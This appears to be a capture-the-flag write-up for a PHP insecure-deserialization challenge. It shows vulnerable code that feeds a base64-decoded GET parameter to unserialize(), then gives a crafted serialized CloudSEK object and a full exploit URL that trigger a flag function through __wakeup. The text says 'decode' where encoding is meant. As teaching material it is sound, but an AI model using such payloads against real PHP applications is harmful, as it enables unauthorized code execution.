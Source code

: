 ```php
$data = base64_decode($sess);
$obj = unserialize($data);

?>

```


![image](md/614e9955-4dfe-4861-93dc-727be8da744a.webp)


In this code we can see that it is checking if GET parameter `sess` exist if yes Base64 decode it and parse it to php unserialize()

There is also  `__wakeup()` function which is called on unserialize

to get the flag we have to call `GetMeDemFlagz` function. __wakeup function will perform rot13 on `func_name` and value of `func_no` should be index of the name of function in `func_map` array.


![image](md/26d57175-a6e9-4afa-a12d-265deadf4863.webp)

Now lets create the payload

Object name would be `CloudSEK` <-- name of the class.
func_no = 3 and func_name = rot13("GetMeDemFlagz")

```
O:8:"CloudSEK":2:{s:7:"func_no";i:3;s:9:"func_name";s:13:"TrgZrQrzSyntm";}
```

Base64 decode this and put it in GET parameter `sess`

```
https://webctf.cloudsek.com/serialization-saga?sess=Tzo4OiJDbG91ZFNFSyI6Mjp7czo3OiJmdW5jX25vIjtpOjM7czo5OiJmdW5jX25hbWUiO3M6MTM6IlRyZ1pyUXJ6U3ludG0iO30=
```


![image](md/828ee104-9265-40a6-980d-7bd5e97a6a9f.webp)
